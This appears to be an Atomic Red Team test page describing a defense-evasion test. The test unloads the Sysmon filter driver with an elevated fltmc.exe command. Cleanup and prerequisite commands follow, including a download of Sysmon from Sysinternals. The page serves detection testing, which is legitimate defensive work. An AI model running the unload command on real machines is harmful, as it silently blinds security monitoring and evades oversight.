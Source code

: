 



<br/>
<br/>

## Atomic Test #10 - Unload Sysmon Filter Driver
Unloads the Sysinternals Sysmon filter driver without stopping the Sysmon service. To verify successful execution, o verify successful execution,
run the prereq_command's and it should fail with an error of "sysmon filter must be loaded".

**Supported Platforms:** Windows


**auto_generated_guid:** 811b3e76-c41b-430c-ac0d-e2380bfaa164





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sysmon_driver | The name of the Sysmon filter driver (this can change from the default) | string | SysmonDrv|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
fltmc.exe unload #{sysmon_driver}
```

#### Cleanup Commands:
```cmd
sysmon -u -i > nul 2>&1
sysmon -i -accepteula -i > nul 2>&1
%temp%\Sysmon\sysmon.exe -u > nul 2>&1
%temp%\Sysmon\sysmon.exe -accepteula -i > nul 2>&1
```



#### Dependencies:  Run with `powershell`!
##### Description: Sysmon must be downloaded
##### Check Prereq Commands:
```powershell
if ((cmd.exe /c "where.exe Sysmon.exe 2> nul | findstr Sysmon 2> nul") -or (Test-Path PathToAtomicsFolder\..\ExternalPayloads\Sysmon\Sysmon.exe)) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Sysmon.zip"
Expand-Archive PathToAtomicsFolder\..\ExternalPayloads\Sysmon.zip PathToAtomicsFolder\..\ExternalPayloads\Sysmon -Force
Remove-Item PathToAtomicsFolder\..\ExternalPayloads\Sysmon.zip -Force
```
##### Description: sysmon must be Installed
##### Check Prereq Commands:
```powershell
if(sc.exe query sysmon | findstr sysmon) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
```